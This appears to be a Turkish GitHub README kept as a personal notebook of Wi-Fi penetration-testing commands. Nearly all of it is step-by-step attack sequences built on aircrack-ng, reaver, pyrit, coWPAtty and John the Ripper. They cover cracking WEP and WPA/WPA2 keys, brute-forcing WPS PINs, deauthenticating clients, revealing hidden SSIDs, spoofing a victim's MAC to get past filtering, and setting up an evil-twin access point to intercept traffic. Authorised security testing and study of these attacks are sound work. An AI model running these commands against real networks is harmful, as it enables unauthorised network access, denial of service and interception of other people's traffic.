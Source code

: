 Bu Reponun amacı Wi-Fi Pentestlerini otomotize bir hale getirmek için oluşturulmuş bir Repo'dur. Amaç; hem bir not defteri olarak kullanmak hem de eksik görülen yerleri eklemektir. Proje hala daha "geliştirilme aşamasında" olup henüz tam olarak çalışmamaktadır. Olması hedeflenen saldırı türleri;

- Coffe - Latte Attack
- Deauthentication Attack (Stress Testing)
- PMKID Attack
- SSL MITM Attack
- Korek's Chop Chop Attack
- Fragmantation And Hitre Attack
- Hotsopt Attack
- Detecting AP Spoffing
- Detecting AP MAC Spoffing
- WPA/WPA2/WEB Capture Handshake
- Control Wi-Fi Card

------------------------------------------------------------
Monitoring

root@mert:~# airmon-ng check kill

monitor mod on

root@mert:~# ifconfig wlan0 down
root@mert:~# airmon-ng start wlan0
//hata verirse bekle tekrar dene
//iwconfig wlan0 mode monitor
//use wlan0 instead of wlan0mon
root@mert:~# ifconfig wlan0 up
---------------------------------------------------------------------------------------
Increase Wi-Fi TX Power

root@mert:~# iw reg set B0
root@mert:~# iwconfig wlan0 txpower <NmW|NdBm|off|auto>
#txpower is 30 (generally)
#txpower is depends your country, please googling
root@mert:~iwconfig
----------------------------------------------------------------------------------------------

Change WiFi Channel #wifi çanıl seç
root@mert:~# iwconfig wlan0 channel <SetChannel(1-14)>
--------------------------------------------------------------------------------------------


WEP CRACKING
 Method 1 : Fake Authentication Attack #sahte atak
root@mert:~# airmon-ng start wlan0
root@mert:~# airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
#MAC adresim ne?
root@mert:~# macchanger --show wlan0mon

root@mert:~# aireplay-ng -1 0 -a <BSSID> -h <OurMac> -e <ESSID> wlan0mon
root@mert:~# aireplay-ng -2 –p 0841 –c FF:FF:FF:FF:FF:FF –b <BSSID> -h <OurMac> wlan0mon
root@mert:~# aircrack-ng –b <BSSID> <PCAP_of_FileName>



Method 2 : ARP Replay Attack #arp atak

root@mert:~# airmon-ng start wlan0
root@mert:~# airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
#MAC Adresim ne hacı?
root@mert:~# macchanger --show wlan0mon
root@mert:~# aireplay-ng -3 –x 1000 –n 1000 –b <BSSID> -h <OurMac> wlan0mon
root@mert:~# aircrack-ng –b <BSSID> <PCAP_of_FileName>



Method 3 : Chop Chop Attack  #!!!!!!mantığını araştır ve anla bunu!!!!!!

root@mert:~# airmon-ng start wlan0
root@mert:~# airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
#MAC Adresim ne hacı?
root@mert:~# macchanger --show wlan0mon
root@mert:~# aireplay-ng -1 0 –e <ESSID> -a <BSSID> -h <OurMac> wlan0mon
root@mert:~# aireplay-ng -4 –b <BSSID> -h <OurMac> wlan0mon
root@mert:~# packetforge-ng -0 –a <BSSID> -h <OurMac> -k <SourceIP> -l <DestinationIP> -y <XOR_PacketFile> -w <FileName2>
root@mert:~# aireplay-ng -2 –r <FileName2> wlan0mon
root@mert:~# aircrack-ng <PCAP_of_FileName>




Method 4 : Fragmentation Attack

root@mert:~# airmon-ng start wlan0
root@mert:~# airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
#MAC Adresim ne hacı?
root@mert:~# macchanger --show wlan0mon
root@mert:~# aireplay-ng -1 0 –e <ESSID> -a <BSSID> -h <OurMac> wlan0mon
root@mert:~# aireplay-ng -5 –b<BSSID> -h < OurMac > wlan0mon
#Press ‘y’ ;
root@mert:~# packetforge-ng -0 –a <BSSID> -h < OurMac > -k <SourceIP> -l <DestinationIP> -y <XOR_PacketFile> -w <FileName2>
root@mert:~# aireplay-ng -2 –r <FileName2> wlan0mon
root@mert:~# aircrack-ng <PCAP_of_FileName>




Method 5 : SKA (Shared Key Authentication) Type Cracking

root@mert:~# airmon-ng start wlan0
root@mert:~# airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
root@mert:~# aireplay-ng -0 10 –a <BSSID> -c <VictimMac> wlan0mon
root@mert:~# ifconfig wlan0mon down
root@mert:~# macchanger –-mac <VictimMac> wlan0mon
root@mert:~# ifconfig wlan0mon up
root@mert:~# aireplay-ng -3 –b <BSSID> -h <FakedMac> wlan0mon
root@mert:~# aireplay-ng –-deauth 1 –a <BSSID> -h <FakedMac> wlan0mon
root@mert:~# aircrack-ng <PCAP_of_FileName>
----------------------------------------------------------------------------------------------------------


WPA / WPA2 CRACKING
Method 1 : WPS Attack

root@mert:~# airmon-ng start wlan0
root@mert:~# apt-get install reaver
root@mert:~# wash –i wlan0mon 
root@mert:~# reaver –i wlan0mon –b <BSSID> -vv –S
#or, Specific attack
root@mert:~# reaver –i wlan0mon –c <Channel> -b <BSSID> -p <PinCode> -vv –S



Method 2 : Dictionary Attack #mantığını kavra!!!!

root@mert:~# airmon-ng start wlan0
root@mert:~# airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
root@mert:~# aireplay-ng -0 1 –a <BSSID> -c <VictimMac> wlan0mon
root@mert:~# aircrack-ng –w <WordlistFile> -b <BSSID> <Handshaked_PCAP>




Method 3 : Crack with John The Ripper #en son işlem. Gerekliliğini araştır****

root@mert:~# airmon-ng start wlan0
root@mert:~# airodump-ng –c <Channel> --bssid <BSSID> -w <FileName> wlan0mon
root@mert:~# aireplay-ng -0 1 –a <BSSID> -c <VictimMac> wlan0mon
root@mert:~# cd /pentest/passwords/john
root@mert:~# ./john –wordlist=<Wordlist> --rules –stdout|aircrack-ng -0 –e <ESSID> -w - <PCAP_of_FileName>
#or
root@mert:~# aircrack-ng <FileName>.cap -J <outFile>
root@mert:~# hccap2john <outFile>.hccap > <JohnOutFile>
root@mert:~# john <JohnOutFile>



Method 4 : Crack with coWPAtty #bunu hiç bilmiyon. Kesinlikle bak.....!!!

root@mert:~# airmon-ng start wlan0
root@mert:~# airodump-ng –c <Channel> --bssid <BSSID> -w <FileName> wlan0mon
root@mert:~# aireplay-ng -0 1 –a <BSSID> -c <VictimMac> wlan0mon
root@mert:~# cowpatty –r <FileName> -f <Wordlist> -2 –s <SSID>
root@mert:~# genpmk –s <SSID> –f <Wordlist> -d <HashesFileName>
root@mert:~# cowpatty –r <PCAP_of_FileName> -d <HashesFileName> -2 –s <SSID>




Method 5 : Crack with Pyrit

root@mert:~# airmon-ng start wlan0
root@mert:~# airodump-ng –c <Channel> --bssid <BSSID> -w <FileName> wlan0mon
root@mert:~# aireplay-ng -0 1 –a <BSSID> -c <VictimMac> wlan0mon
root@mert:~# pyrit –r<PCAP_of_FileName> -b <BSSID> -i <Wordlist> attack_passthrough
root@mert:~# pyrit –i <Wordlist> import_passwords
root@mert:~# pyrit –e <ESSID> create_essid
root@mert:~# pyrit batch
root@mert:~# pyrit –r <PCAP_of_FileName> attack_db




Method 6 : Precomputed WPA Keys Database Attack

root@mert:~# airmon-ng start wlan0
root@mert:~# airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
root@mert:~# aireplay-ng -0 1 –a <BSSID> -c <VictimMac> wlan0mon
root@mert:~# kwrite ESSID.txt
root@mert:~# airolib-ng NEW_DB --import essid ESSID.txt
root@mert:~# airolib-ng NEW_DB --import passwd <DictionaryFile>
root@mert:~# airolib-ng NEW_DB --clean all
root@mert:~# airolib-ng NEW_DB --stats
root@mert:~# airolib-ng NEW_DB --batch
root@mert:~# airolib-ng NEW_DB --verify all
root@mert:~# aircrack-ng –r NEW_DB <Handshaked_PCAP>

-----------------------------------------------------------------------------------
FIND HIDDEN SSID

root@mert:~# airmon-ng start wlan0
root@mert:~# airodump-ng –c <Channel> --bssid <BSSID> wlan0mon
root@mert:~# aireplay-ng -0 20 –a <BSSID> -c <VictimMac> wlan0mon


-------------------------------------------------------------------------------------
BYPASS MAC FILTERING
#klasik işlemler. Unutmamak için koydum. Ama yine de bak!!

root@mert:~# airmon-ng start wlan0
root@mert:~# airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
root@mert:~# aireplay-ng -0 10 –a <BSSID> -c <VictimMac> wlan0mon
root@mert:~# ifconfig wlan0mon down
root@mert:~# macchanger –-mac <VictimMac> wlan0mon
root@mert:~# ifconfig wlan0mon up
root@mert:~# aireplay-ng -3 –b <BSSID> -h <FakedMac> wlan0mon

--------------------------------------------------------------------------------------------------

MAN IN THE MIDDLE ATTACK

root@mert:~# airmon-ng start wlan0
root@mert:~# airbase-ng –e “<FakeBSSID>” wlan0mon
#apt-get install bridge-utils #bunu netten buldum. Gerekliliğini araştır. Ama sorun çözüyor...
root@mert:~# brctl addbr <VariableName>
root@mert:~# brctl addif <VariableName> wlan0mon
root@mert:~# brctl addif <VariableName> at0
root@mert:~# ifconfig eth0 0.0.0.0 up
root@mert:~# ifconfig at0 0.0.0.0 up
root@mert:~# ifconfig <VariableName> up
root@mert:~# aireplay-ng –deauth 0 –a <victimBSSID> wlan0mon
root@mert:~# dhclient3 <VariableName> &
root@mert:~# wireshark &
;select <VariableName> interface
